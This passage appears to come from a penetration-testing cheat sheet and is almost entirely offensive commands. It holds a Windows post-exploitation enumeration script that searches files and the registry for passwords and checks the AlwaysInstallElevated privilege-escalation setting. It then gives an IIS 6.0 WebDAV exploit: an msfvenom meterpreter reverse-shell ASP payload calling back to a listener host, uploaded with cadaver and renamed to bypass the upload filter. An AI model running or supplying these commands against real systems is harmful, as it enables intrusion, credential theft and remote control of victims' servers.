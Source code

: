          arp -A >> report.txt
         timeout 1
         netstat -ano >> report.txt
         timeout 1
         netsh firewall show state >> report.txt	
         timeout 1
         netsh firewall show config >> report.txt
         timeout 1
         schtasks /query /fo LIST /v >> report.txt
         timeout 1
         tasklist /SVC >> report.txt
         timeout 1
         net start >> report.txt
         timeout 1
         DRIVERQUERY >> report.txt
         timeout 1
         reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt
         timeout 1
         findstr /si password *.xml *.ini *.txt >> report.txt
         timeout 1
         reg query HKLM /f password /t REG_SZ /s >> report.txt
         timeout 1
         reg query HKCU /f password /t REG_SZ /s >> report.txt 
         timeout 1
         dir "C:\"
         timeout 1
         dir "C:\Program Files\" >> report.txt
         timeout 1
         dir "C:\Program Files (x86)\"
         timeout 1
         dir "C:\Users\"
         timeout 1
         dir "C:\Users\Public\"
         timeout 1
         echo REPORT COMPLETE!


-   Windows Server 2003 and IIS 6.0 WEBDAV Exploiting
http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html

         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

         cadaver http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to `/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt ( Bypass webdav filter )  
         Copying `/aspshell3.txt' to `/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit

